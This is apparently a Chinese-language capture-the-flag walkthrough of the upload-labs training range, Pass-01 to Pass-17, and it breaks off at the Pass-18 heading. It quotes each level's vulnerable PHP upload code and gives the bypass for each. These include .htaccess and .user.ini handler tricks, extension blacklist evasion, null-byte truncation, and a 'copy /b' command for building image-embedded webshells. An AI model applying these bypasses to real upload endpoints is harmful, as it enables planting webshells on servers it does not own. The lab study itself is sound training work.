

##  一、upload-labs 靶场简介

upload-labs是一个使用php语言编写的，专门收集渗透测试和CTF中遇到的各种上传漏洞的靶场。旨在帮助大家对上传漏洞有一个全面的了解。目前一共21关，每一关都包含着不同上传方式。

> 1.每一关没有固定的通关方法，大家不要自限思维！
2.本项目提供的writeup只是起一个参考作用，希望大家可以分享出自己的通关思路。
3.实在没有思路时，可以点击查看提示。
4.如果黑盒情况下，实在做不出，可以点击查看源码。

后续如在渗透测试实战中遇到新的上传漏洞类型，会更新到upload-labs中。当然如果你也希望参加到这个工作当中，欢迎pull requests给我!

项目地址：https://github.com/c0ny1/upload-labs

# 二、打靶记录

## Pass-01 JS 校验
本关卡为JS检验。漏洞描述：利用前端 JS 对上传文件后缀进行校验，后端没进行检测

>  **利用方法：**
>  - 浏览器禁用 js 
>  - 浏览器前端修改
>   - Burp抓包绕过

1. 通过测试，我们发现非图片格式的文件确实无法提交上去，我们先尝试第一种方法：在开发者工具中的设置中找到“停用JavaScript”，选中即可，我们再尝试提交非图片格式的文件，发现成功，
2. 我们尝试第二种方法，浏览器前端修改，我们观察可以发现，在提交表单时浏览器会用`onsubmit`属性进行判断，只有符合其规定之后才可以上传，那么我们可以选择直接将这里的`onsubmit`属性中的`return checkFile()`函数删除，也就可以将`return checkFile()`破坏掉：(在定义`return checkFile()`处将其函数结构破坏) 
 **但是，浏览器通常会对这个行为进行一定的限制，比如笔者在测试的时候发现用Edge浏览器便无法通过这种方式上传，但是Firefox浏览器可以。**
    
3. 第三种方法的解释：因为是前端js拦截了，所以我们先将php文件后缀修改成合法的格式（.jpg），使用burpsuite抓包，再修改.php后缀，也可以绕过前端验证。


## Pass-02 文件类型校验(MIME 校验)

1. 漏洞描述：只检测 content-type 字段导致的漏洞。(后端利用 PHP 的全局数组 `$_FILES()`获取上传文件信息)
利用方法：修改 content-type 字段的值为图片格式。

> **常用 content-type 字段：**
>  - image/jpeg ：jpg 图片格式
>  - image/png ：png 图片格式 
>  - image/gif ：gif 图片格式
>  - text/plain ：纯文本格式 
>  - text/xml ： XML 格式 
>  - text/html ： HTML 格式


1. 我们将我们要上传的文件直接上传，发现提示错误，这时候我们看一看Burp抓到的数据包，发现现在的content-type 字段为application/octet-stream  （我上传了一个.md格式文件），这时候我们只需要将其改成image/jpeg即可


## Pass-03 文件名后缀校验(黑名单绕过)

漏洞描述：使用黑名单的方式限制文件上传类型，后端利用`$_FILES()`和 `strrchr()`获取文件名后缀。被限制文件类型： .asp .aspx .php .jsp

利用方法：因为是利用黑名单来限制文件上传类型，找漏网之鱼绕过
例如：特殊文件名绕过： .php3 .php4 .php5 .phtml .phtm .phps .phpt .php345
1. 后端代码如下：发现其只是限制了 .asp .aspx .php .jsp

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```
2. 因此我们将我们要上传的php文件改成`.php3 .php4 .php5 .phtml .phtm .phps .phpt .php345`任意一种即可。
3. **注意：**要在apache的httpd.conf中有如下配置代码：AddType application/x-httpd-php .php .phtml .phps
.php5 .pht，如果不配置的话是无法解析php5代码的，访问的时候就是一个空白页


## Pass-04 文件名后缀校验 (配置文件解析控制) .htaccess

分析源码：我们发现这一关的过滤比第三过更多了，使用第三关的方法是行不通了。
但是没有限制 .htaccess

> **补充知识：**
 .htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置.通过htaccess文件，可以实现:网页301重定向、自定义404页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能

上传内容为以下代码的htaccess文件，双引号内为你要上传的文件名。
```php
<FilesMatch "jpg">   
        SetHandler application/x-httpd-php
</FilesMatch>
```
1. 我们先看一看后端代码
```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".php1",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".pHp1",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传!';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```
2. 从以上代码可以看出，该关过滤了大量的能够被解析成php的后缀，但是没有对.htaccess的文件进行过滤，因此我们可以.htaccess上传的方式绕过。
3. 我们先上传一个.htaccess文件,文件内容如下：

```php
<FilesMatch "1.jpg">
	SetHandler application/x-httpd-php
</FilesMatch>
```
> htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。
>
> 在上述配置中，FilesMatch表示匹配1.png的文件，当该文件名匹配成功后，SetHandler表示将该文件作为PHP类型的文件来进行处置。然后上传该文件。

 

 


4. 之后，我们再上传一个jpg文件，注意，这个jpg文件并不是正常的文件！！
那么我们再创建一个php文件，其内容设置为`<?php  phpinfo(); ?>`,然后再将此文件后缀改为jpg，上传。
5. 之后我们再访问上传上的图片，便可以成功看到phpinfo界面。**但是需要注意的是.htaccess文件是apache默认的文件名，所以如果后台有对上传文件强制改名的机制，那么这种方法也就失效了。**
6. 其实我上面的步骤做错了，注意.htaccess文件不能起名字，他就是.htaccess文件，如果你将他改为4.htaccess或者其他的什么名字是不可以的，无法解析。在实战中有可能上传上去这个文件会被自动重命名，被重命名了就不可以了。

## Pass-05 文件名后缀校验 (配置文件解析控制) .user.ini

> ***htaccess***
作用:  分布式配置文件，一般用于 URL·重写、认证、访问控制等(作用范围:特定目录 (一般是网站根目录) 及其子目录
优先级:  较高，可覆盖 Apache·的主要配置文件(httpd-conf)
生效方式:  修改后立刻生效“
>
>***httpd-conf***
作用:  包含 ApacheHTTP·服务器的全局行为和默认设置作用范围:整个服务器
优先级:  较低
生效方式:  管理员权限，重启服务器后生效“

> ***.user.ini***
> 作用:  特定于用户或特定目录的配置文件,通常位于·Web·应用程序的根目录下。它用于覆盖或追加全局配置文件 (如php.ini) 中的PHP配置选项。作用范围:存放该文件的目录以及其子目录
> 优先级:  较高，可以覆盖 php.ini
> 生效方式:  立即生效
> ***php.ini***
> 作用:存储了对整个·PHP·环境生效的配置选项。它通常位于PHP安装目录中作用范围:所有运行在该PHP环境中的PHP请求
> 优先级:  较低
> 生效方式:  重启 php或 web 服务器

> ***加载方式:*** 会首先加载php.ini/httpd-conf 文件中的配置。然而，如果在某个目录下存在.userini/.htaccess文件服务器会在处理请求时检查该目录，并覆盖相应的配置项。

> .user.ini 文件上传漏洞的前提：
> .user.ini 可以生效并且该上传目录有PHP文件
>
> 1. 我们像上关一样上传.htaccess文件，但提示 “此文件类型不允许上传！” 说明过滤了该文件。那我们就先制作一个jpg文件，注意，这个jpg文件并不是正常的文件，这个文件是先将一个php文件内容设置为`<?php  phpinfo(); ?>`,然后再将此文件后缀改为jpg得到的。
2. 接下来我们再写一个.user.ini文件，其内容为`auto_prepend_file=1.jpg`,理解这个语句可以先将其理解为include,意思是在执行操作前先运行一下1.jpg文件中的内容，而我们的jpg中便是一些php代码。
3. 之后我们先上传.user.ini文件，再上传1.jpg文件即可
> 
> 想要引发 .user.ini 解析漏洞需要三个前提条件：
> 
>  - 服务器脚本语言为PHP
>  - 服务器使用CGI/FastCGI模式
>  - 上传目录下要有可执行的php文件

##  Pass-06 文件名后缀校验 (大小写绕过)

1. 我们先分析分析后端代码：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```
2. 通过分析发现代码里面少了`strtolower`，这说明我们可以尝试大小写绕过。
我们尝试将1.php改为1.phP，上传成功

> **大小写绕过原理**： Windows系统下 ，对于文件名中的大小写不敏感。例如：test.php和 TeSt.PHP 是一 样的。
Linux系统下 ，对于文件名中的大小写敏感。例如：test.php和 TesT.php就是不一样的。



##  Pass-07 文件名后缀校验 (空格绕过)

1. 我们还是先看一看后端代码：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = $_FILES['upload_file']['name'];
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file,$img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件不允许上传';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```
2. 观察发现，本关少了一步首尾去空的步骤（`$file_ext = trim($file_ext);` ），这样的话我们可以采取空格绕过。
但是有一个问题：在windows系统下对文件重命名，系统会自动将后缀结尾的空格删除，而我们的解决方案便是burp抓包修改
3. 我们上传文件，在Burp中抓包。将“1.php”修改为“1.php ”(后者最后有空格)，放行拦截到的数据包，上传成功。

##  Pass-08 文件名后缀校验 (点号绕过)

1. 分析后端代码：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```
2. 分析发现：没有对上传的文件后缀名未做去点.的操作 `strrchr($file_name, '. ')`，那我们将后缀改为“1.php.”不就好了？错了，依旧不行，windows系统会自动删除后缀最后的点，所以我们依旧是Burp抓包修改。上传成功。



##  Pass-09 文件名后缀校验 (::$DATA 绕过)

解析：在php+windows的情况下：如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名.且保持"::$DATA"之前的文件名。利用windows特性，可在后缀名中加” ::$DATA”绕过。

1. 分析后端代码：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}

```
2. 分析本关源码：我们会发现本关少了去除字符串的一步，`$file_ext = str_ireplace('::$DATA', '', $file_ext);`
那我们便在这里弄一些小操作，我们用Burp抓包，之后将文件名最后加上“::$DATA”，上传成功。

3. 我猜你看到这里的时候并不是很明白，请在看看下面的文字吧：我们在文件的后缀中加上$"::$DATA"，可以绕过验证，而在windows系统中，文件名不允许包含“:”等非法字符,所以后端在接收到此文件之后，会自动将文件后面的::$DATA去掉，从而其实后缀变为.php

##  Pass-10 文件名后缀校验 (拼接绕过)

1. 后端代码如下：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空
        
        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

2. 分析发现：先将首尾去空，又去除了::$DATA又转换为小写，再删去末尾的点。这样一来我们构造文件名，使其经过过滤后得到的还是php的文件名不就行了，所以就1.php. . 就可以绕过，也就是点+空格+点+空格绕过

##  Pass-11 文件名后缀校验 (双写绕过)

1. 瞅瞅后端源码：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess","ini");

        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = str_ireplace($deny_ext,"", $file_name);
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = UPLOAD_PATH.'/'.$file_name;        
        if (move_uploaded_file($temp_file, $img_path)) {
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```
2. 在后端源码中，我们看到了一个很新鲜的东西：`$file_name = str_ireplace($deny_ext,"", $file_name);`，他的意思是将deny_ext 中的违规数组名全部替换为空，但是它只会去替换一次，所以我们便去将我们的php后缀改为`.phphpp`
这样，等它执行完替换操作后，上传到后端的文件的后缀便刚好变成了.php

##  Pass-12 白名单校验 (GET 型 0x00 截断)

> **漏洞描述：** 使用白名单限制上传文件类型，但上传文件的存放路径可控


> **%00截断的条件是：** php版本要小于5.3.4 修改php.ini的magic_quotes_gpc为OFF状态

1. 关于0x00截断，你可以理解为当文件从前往后读取，当某一时刻读取到0x00时，便会停止读取之后的内容。
如：filename=1.php%00.txt  就是  filename=1.php
2. 还是看一看后端代码：

```php
$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);
    if(in_array($file_ext,$ext_arr)){
        $temp_file = $_FILES['upload_file']['tmp_name'];
        $img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;

        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = '上传出错！';
        }
    } else{
        $msg = "只允许上传.jpg|.png|.gif类型文件！";
    }
}
```
首先可以看到一个白名单`ext_arr` ，只有在此数组中的后缀名才能通过。
接着我们看到`$file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1);`，这个东西的意思是：（第一个参数：在什么东西上面执行操作，这里是文件名），（第二个参数：从第几位开始读取（这里是先找到文件名中的最后一个点，然后在+1，意思是获取点之后的字符串）），（其实还有第三个参数，但是这里没有用））

3. `$img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext;`这个可以看到他是先GET获取要保存的文件的路径，然后用随机数和时间戳作为文件名，最后将文件后缀拼接上去，我们依旧是上传假冒jpg格式文件，用Burp抓包，然后修改内容，如下图：
4. 至于为什么要加这些内容，请听我解释：修改的地方是文件要存储的路径，我们加上.php%00之后，文件名称会拼接在这后面，但是这时候的拼接已经没有用了，因为%00截断了，也就是说留下来的只有.php。这便起到了我们想要的效果。
5. 这一关是GET型的，也就是说不需要用Burp，直接在url中添加1.php%00也可以。

##  Pass-13 白名单校验 ( POST 型 0x00 截断)

1. 上一关是%00截断，而这一关是0x00截断，这是为啥，因为上一关是GET型的，直接在url中编码，而这一关是编程语言的编码
2. 我们依旧是Burp抓包修改，但是不是直接写为.php0x00,下图为错误示例：
3. 这里其实应该写为1.php (php后面有一个空格)，然后选中这个空格（额……wo真的选中了，这个Burp显示有问题）然后在右边，将hex内容改为00，点击“应用修改”，放行拦截到的数据包即可
4. 需要注意的是：因为是 POST 型，所以需要在 16 进制中修改，因为 POST 不会像 GET 那 样对%00 进行自动解码。

##  Pass-14 文件内容检测 (文件头校验)

> **先了解了解文件头：**
> JPEG/JFIF(常见的照片格式): 头两个字节为·0xFF·0xD8
> PNG(无损压缩格式):头两个字节为·0x89·0x50
> GIF (支持动画的图像格式): 头两个字节为·0x47·0x49
> BMP(Windows位图格式): 头两个字节为·0x42·0x4D
> TIFF (标签图像文件格式): 头两个字节可以是不同的数值

1. 我们看看后端代码：

```php
function getReailFileType($filename){
    $file = fopen($filename, "rb");
    $bin = fread($file, 2); //只读2字节
    fclose($file);
    $strInfo = @unpack("C2chars", $bin);    
    $typeCode = intval($strInfo['chars1'].$strInfo['chars2']);    
    $fileType = '';    
    switch($typeCode){      
        case 255216:            
            $fileType = 'jpg';
            break;
        case 13780:            
            $fileType = 'png';
            break;        
        case 7173:            
            $fileType = 'gif';
            break;
        default:            
            $fileType = 'unknown';
        }    
        return $fileType;
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_type = getReailFileType($temp_file);

    if($file_type == 'unknown'){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").".".$file_type;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}

```
其中 `$file = fopen($filename, "rb");`表示以只读（r）、二进制（b）格式打开文件，然后`$bin = fread($file, 2);` 只读2字节，再之后，将其转换为十进制编码与文件头进行比较从而得知文件类型。

2. 这个可以用两种方法解决：
> **第一种：**
> 在 cmd 里执行 copy logo.jpg/b+test.php/a   test.jpg
> logo.jpg 为任意图片
> test.php 为我们要插入的木马代码
> test.jpg 为我们要创建的图片马

> **第二种：**
> 直接用010editor等软件进行修改

3. 但其实这时候用蚁剑连接也无法连接，因为它仍然是被当作图片等格式解析的，我们看一看upload-labs的关卡界面，它说要“使用文件包含漏洞能运行图片马中的恶意代码”，所以我们使用文件包含漏洞即可

##  Pass-15 文件内容检测 (getimagesize()校验)

1. 观察源码：

```php
function isImage($filename){
    $types = '.jpeg|.png|.gif';
    if(file_exists($filename)){
        $info = getimagesize($filename);
        $ext = image_type_to_extension($info[2]);
        if(stripos($types,$ext)>=0){
            return $ext;
        }else{
            return false;
        }
    }else{
        return false;
    }
}

$is_upload = false;
$msg = null;
if(isset($_POST['submit'])){
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $res = isImage($temp_file);
    if(!$res){
        $msg = "文件未知，上传失败！";
    }else{
        $img_path = UPLOAD_PATH."/".rand(10, 99).date("YmdHis").$res;
        if(move_uploaded_file($temp_file,$img_path)){
            $is_upload = true;
        } else {
            $msg = "上传出错！";
        }
    }
}

```
2. 这关与上一关类似，但是它是用`getimagesize()`对图片做了校验。其余操作相同。

> **getimagesize() 函数返回一个包含图像信息的数组。该数组的索引如下所示:** 
> 
> 索引0: 图像的宽度 (单位:像素)
> 索引1: 图像的高度 (单位:像素)
> 索引2: 图像类型的常量值(可以使用 image type to_mimetype() 函数将其转换为 MIME 类型),型，返回的是数字,其中1 = GIF，2 = JPG，3 = PNG，4 = SWF，5 = PSD，6 = BMP，7 = TIFF(intel byte order)，8 = TIFF(motorola byte order)，9 = JPC，10 = JP2，11 = JPX，12 = JB2，13 = SWC，14 = IFF，15 = WBMP，16 = XBM
> 索引3: 包含图像属性的字符串，以逗号分隔 (如width=500,height=300)
> 索引 bits 给出的是图像的每种颜色的位数，二进制格式
> 索引 channels 给出的是图像的通道值，RGB 图像默认是 3
> 索引 mime 给出的是图像的 MIME 信息，此信息可以用来在 HTTP Content-type 头信息中发送正确的信息
> <br>
> 如果getimagesize()函数无法读取图像信息，则返回false。否则，返回一个包含上述索引的数组。

##  Pass-16 文件内容检测 (exif_imagetype()绕过)

1. 漏洞描述：利用 php 内置函数 exif_imagetype()获取图片类型 (需要开启 php_exif 模块)
2. 预定义高度宽度：
例 .htaccess 文件
文件内容:

3. 利用 x00x00x8ax39x8ax39 文件头x00x00x8ax30x8ax39 是 wbmp 文件的文件头，但 0x00在.htaccess 文件中为是注释符，不会影响文件本身。使用十六进制编辑器或者 python 的 bytes 字符类型(b’’)来进行添加。
payload:shell = b"\x00\x00\x8a\x39\x8a\x39"+b"00" + '文件内容'
4. 其实其他操作和前几关一样


##  Pass-17 文件内容检测 (二次渲染)

1. 查看源码：

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])){
    // 获得上传文件的基本信息，文件名，类型，大小，临时文件路径
    $filename = $_FILES['upload_file']['name'];
    $filetype = $_FILES['upload_file']['type'];
    $tmpname = $_FILES['upload_file']['tmp_name'];

    $target_path=UPLOAD_PATH.'/'.basename($filename);

    // 获得上传文件的扩展名
    $fileext= substr(strrchr($filename,"."),1);

    //判断文件后缀与类型，合法才进行上传操作
    if(($fileext == "jpg") && ($filetype=="image/jpeg")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefromjpeg($target_path);

            if($im == false){
                $msg = "该文件不是jpg格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".jpg";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagejpeg($im,$img_path);
                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错！";
        }

    }else if(($fileext == "png") && ($filetype=="image/png")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefrompng($target_path);

            if($im == false){
                $msg = "该文件不是png格式的图片！";
                @unlink($target_path);
            }else{
                 //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".png";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagepng($im,$img_path);

                @unlink($target_path);
                $is_upload = true;               
            }
        } else {
            $msg = "上传出错！";
        }

    }else if(($fileext == "gif") && ($filetype=="image/gif")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefromgif($target_path);
            if($im == false){
                $msg = "该文件不是gif格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".gif";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagegif($im,$img_path);

                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错！";
        }
    }else{
        $msg = "只允许上传后缀为.jpg|.png|.gif的图片文件！";
    }
}
```
2. 在源码中有这么一句比较特殊，也是这一关的重点： `$im = imagecreatefrompng($target_path);`这个的意思是对图片进行重新渲染，也就是说，将图片格式之外的内容会被删去，就比如说我们之前用 cmd 里执行 `copy logo.jpg/b+test.php/a test.jpg`生成的图片，其文件末尾会有php语句，而在二次渲染之后就会消失。
3. 基于此，我们尝试去绕过，我们先上传一个合法的gif文件，（至于为什么用.gif 而不用.jpg 或者是.png ,我们之后再说），上传之后，我们在页面上右键图片，然后将上传到服务器的图片下载到本地。
4. 这时候，我们先比较比较经过渲染之后的图片与原图片有何区别，我们打开010editor，然后选择“比较文件”，分别选择两张图片，再点击“匹配”，然后再其中插入东西。
5. 这时候我们有两种方法，一种是在最初的图片上做修改，第二种是在经过第一次渲染之后的图片上做修改
6. 先说第一种，我们将我们的PHP语句插入到未经修改的部分（最好靠后一些），然后再将插入php语句的照片上传。再次下载下上传到服务器的照片可以发现里面的PHP语句并没有被删除。



8. 第二种：插入到经过第一次渲染之后的照片里，这里的渲染只会进行一次，也就是说，渲染过后的照片再上传时并不会再次被渲染，所以我们的PHP语句也得以被保留。
9. 这里说说为什么要用.gif 吧：如果我们用.jpg 或者.png的话，经过第一次渲染之后的图片与原图片相同的区域非常少，从而也就不适合我们插入语句。但是如果非要用.jpg 或者.png的话，那就需要经过一些编程的操作了，本节不对此做论述。

##  Pass-18 逻辑漏洞 (条件竞争)

